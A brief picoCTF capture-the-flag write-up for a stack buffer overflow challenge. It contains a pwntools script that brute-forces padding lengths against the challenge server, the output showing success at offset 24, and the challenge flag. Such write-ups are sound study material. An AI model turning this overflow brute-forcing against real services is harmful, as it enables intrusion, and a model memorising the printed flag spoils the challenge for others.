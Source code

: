 ```yaml
---
ai_date: 2025-04-27 05:29:46
ai_summary: "Brute-forced integer overflow with padding; found flag: picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}"
ai_tags:
  - overflow
  - brute-force
  - padding
created: 2024-08-08T02:36
updated: 2025-07-14T09:46
---
```


Brute force the overflow.

```python
from pwn import *
context.log_level = 'error'
# nc saturn.picoctf.net 57660
for i in range(100):
    r = remote('saturn.picoctf.net', 57660)
    r.sendlineafter(b': ', b'a'*i+p32(65))
    print(i, r.recvall())
    r.close()
```

```
23 b'\nnum is 0\nBye!\n'
24 b'\nnum is 65\nYou win!\npicoCTF{l0c4l5_1n_5c0p3_7bd3fee1}\n'
25 b'\nnum is 16737\nBye!\n'
```

Huh, it is not 16.
Maybe there is some padding?

```flag
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```
